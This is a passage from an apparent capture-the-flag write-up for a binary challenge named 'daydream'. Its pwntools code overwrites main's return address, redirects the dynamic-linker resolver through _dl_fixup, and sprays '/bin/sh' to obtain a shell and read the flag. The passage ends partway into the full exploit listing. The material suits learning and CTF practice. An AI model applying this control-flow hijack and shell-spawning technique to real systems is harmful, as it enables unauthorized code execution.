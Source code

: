 After we've returned from `main`, we'll modify the return address of `main+16`
to point to the resolver dispatcher.

```python
# reset
buf.swrite(0, 0)
# plt resolver addr
buf.swrite(ret_addr, 0x20)
# set plt index, which should be on the heap. this'll call main
buf.write_bytes(ret_addr + 0x8, p64(plt_idx))
# this'll also call main. it's for stack alignment.
buf.write_bytes(ret_addr + 0x10, p64(plt_idx))
# this'll call system.
buf.write_bytes(ret_addr + 0x18, p64(plt_idx + 1))
buf.swrite(0, 0xFF)

buf.commit()
```

Now, once we're in the main invoked within `_dl_fixup`, we'll modify internal
state of `_dl_fixup` and `_dl_runtime_resolve_xsavec`.

```python
# hop _dl_fixup to alternate branch that uses stack variable for return value
buf.swrite(ret_addr, 0xA4)
# set lsb of return value of _dl_fixup to dispatch resolver
buf.swrite(ret_addr + 0x10, 0x20)

# set saved rdi bottom two bytes to 0000
buf.write_bytes(0xA0, p16(0x0000))

buf.swrite(0, 1)
buf.commit()
```

We'll spray "/bin/sh" over where `rdi` points in the next iteration of `main`.

```python

spray = b"/bin/sh\x00" * 0x2000
buf.write_bytes(-0x10000, spray)
buf.swrite(0, 1)
buf.commit()

```

Now, the next input proccessed will be by `/bin/sh`! Let's get the flag and win.

```python
buf.write(b"cat /flag\nexit\n")
```

Here's the exploit in its entirety.

```python
from pwn import *
import io

bin = ELF("./daydream")
# r = process(bin.path)

# r = remote("localhost", 5000)
# r = process(["python3", "main.py"])
# gdb.attach(r, "break *_dl_fixup+81\nbreak *main+152")
# gdb.attach(r, "break *_dl_fixup+608\nbreak *_dl_runtime_resolve_xsavec+186")


class Buffer(io.BytesIO):
    def commit(self):
```